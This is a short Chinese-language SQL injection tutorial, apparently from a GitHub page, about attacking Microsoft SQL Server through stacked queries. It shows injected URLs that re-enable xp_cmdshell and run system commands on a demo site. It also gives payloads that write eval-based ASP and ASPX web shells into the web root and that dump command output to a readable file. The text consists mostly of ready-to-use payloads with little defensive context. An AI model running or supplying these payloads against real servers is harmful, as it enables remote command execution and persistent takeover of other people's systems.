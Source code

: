 在SQLSERVER中是可以执行多行操作的；两条SQL语句是用分号隔开

```sql
select * from art; select * from admin
```

xp_cmdshell默认在mssql2000中是开启的，在mssql2005之后的版本中则默认禁止。

如果用户拥有管理员sa权限则可以用sp_configure 重新开启它。

```http
;EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE; 
```

命令解释

EXEC sp_configure 'show advanced options',1   //允许修改高级参数
RECONFIGUREEXEC sp_configure 'xp_cmdshell',1  //打开xp_cmdshell扩展RECONFIGURE

执行系统命令(页面不显示)

```http
http://www.demo1.com/index.aspx?id=1;EXEC master.dbo.xp_cmdshell 'ipconfig'
```

开启xp_cmdshell

```http
http://www.demo1.com/index.aspx?id=1;EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;
```

 getshell 

```http
http://www.demo1.com/index.aspx?id=1;exec master..xp_cmdshell 'echo ^<%eval request(chr(35))%^> > C:\inetpub\wwwroot\www.demo1.com\2.asp' --  

http://www.demo1.com/index.aspx?id=1;exec master..xp_cmdshell 'echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item["chopper"],"unsafe");%^>>C:\inetpub\wwwroot\www.demo1.com\2.aspx' --
```

执行系统命令 把命令结果输出到指定文件

```http
http://www.demo1.com/index.aspx?id=1;EXEC master.dbo.xp_cmdshell 'ipconfig >>C:\inetpub\wwwroot\www.demo1.com\ip.txt'
```

 